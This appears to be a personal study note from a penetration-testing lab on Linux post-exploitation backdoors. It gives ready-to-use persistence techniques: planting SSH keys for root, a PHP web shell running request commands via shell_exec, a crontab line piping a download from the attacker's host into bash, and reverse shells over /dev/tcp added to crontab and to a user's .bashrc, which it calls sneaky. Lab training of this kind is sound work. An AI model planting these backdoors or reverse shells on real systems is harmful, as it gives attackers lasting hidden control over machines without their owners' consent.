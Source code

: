 #linux #thm #pentest #post-exploitation

---

# SSH Backdoors

- The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory.
	- Usually the user would be root as it’s the user with the highest privileges.

- Firstly, we generate ssh keys with `ssh-keygen`
	- ![[Pasted image 20250808061932.png]]

- We leave the public key n /root/.ssh/ 
	- We have to rename our public key to **authorized_keys**
	  
	- The private key is which we use to connect back to ssh on the victim's host. 
	  Give the private key the right permissions using : chmod 600 id_rsa
	  
	- After giving the key the right permissions, we can do : 
		  `"ssh -i id_rsa root@ip"` to login into our desired machine!
		

> This backdoor isn't hidden at all. Anybody with the right permissions would be able to remove our ssh public key or the file authorized_keys entirely.

---

# PHP Backdoors

- If you get root access on a Linux host, you will most likely search for creds and or any useful information in the **web root**.
  
- The web root is usually located in : `/var/www/html`
	-  What you have to know is that, whatever you leave in `/var/www/html`, will be available for everybody to use in their browser.


- Now we can create this php file...
```php
<?php  
	    if (isset($_REQUEST['cmd'])) {  
	        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
	    }  
	?>
```


> Notice that we are using : "$_REQUEST['cmd'])", which means that you can pass that parameter either in GET or in POST data.

---

# CronJob Backdoors

- **_Cronjob_** - a scheduled task defined on a Linux system to execute automatically based on predefined parameters such as time intervals or user actions.
	- Cronjob file is here - `/etc/crontab`

- `"m and h"` - Those are the letters that indicate if the task should run every hour or every minute.
	- If `'*'` is under 'h', then cronjob will run every hour, else, it will run every minute

- Add this line into our cronjob file :
	- `* *     * * *   root    curl http://<yourip>:8080/shell | bash`
	  
	- Notice that we put a "*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

- The contents of the "shell" file that we are using are simply :

```bash
#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1
```

> Please note that this backdoor isn't really hidden because everyone can see it just by looking inside /etc/crontab.


---

# .bashrc Backdoors

- The `.bashrc` file is a hidden configuration file in Linux and other Unix-like operating systems that is used by the Bash shell. 
	- Its primary purpose is to store user-specific configurations and commands that are executed every time a new interactive Bash shell session is opened.

- So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".
	-  `echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc`

> One important thing is to always have your nc listener ready as you don't know when your user will log on.

===This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.===

---

A good resource that I found really helpful when creating this room is: [link](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)